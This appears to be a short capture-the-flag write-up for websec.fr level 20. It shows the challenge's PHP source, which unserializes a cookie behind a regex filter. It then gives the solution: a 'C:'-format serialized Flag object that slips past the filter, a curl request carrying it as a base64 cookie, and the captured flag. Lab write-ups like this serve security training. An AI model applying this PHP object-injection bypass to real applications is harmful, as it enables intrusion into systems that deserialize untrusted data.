 SOurce given
```
<?php

include "flag.php";

class Flag {
    public function __destruct() {
       global $flag;
       echo $flag; 
    }
}

function sanitize($data) {
    /* i0n1c's bypass won't save you this time! (https://www.exploit-db.com/exploits/22547/) */
    if ( ! preg_match ('/[A-Z]:/', $data)) {
        return unserialize ($data);
    }

    if ( ! preg_match ('/(^|;|{|})O:[0-9+]+:"/', $data )) {
        return unserialize ($data);
    }

    return false;
}

$data = Array();
if (isset ($_COOKIE['data'])) {
    $data = sanitize (base64_decode ($_COOKIE['data']));
}

if (isset ($_POST['value']) and ! empty ($_POST['value'])) {
    /* Add a value twice to remove it from the list. */
    if (($key = array_search ($_POST['value'], $data)) !== false) {
        unset ($data[$key]);
    } else { /* Else, simply add it. */
        array_push ($data, $_POST['value']);
    }
    setcookie ('data', base64_encode (serialize ($data)));
}

?>
```
C:4:"Flag":0:{}
+ payload: curl 'https://websec.fr/level20/index.php' \
    -H 'Cookie: data=Qzo0OiJGbGFnIjowOnt9'
flag: WEBSEC{CVE-2012-5692_was_a_lof_of_phun_thanks_to_i0n1c_but_this_was_not_the_only_bypass}


Reference:
+ https://github.com/MegadodoPublications/exploits/blob/master/composr.md
+ 

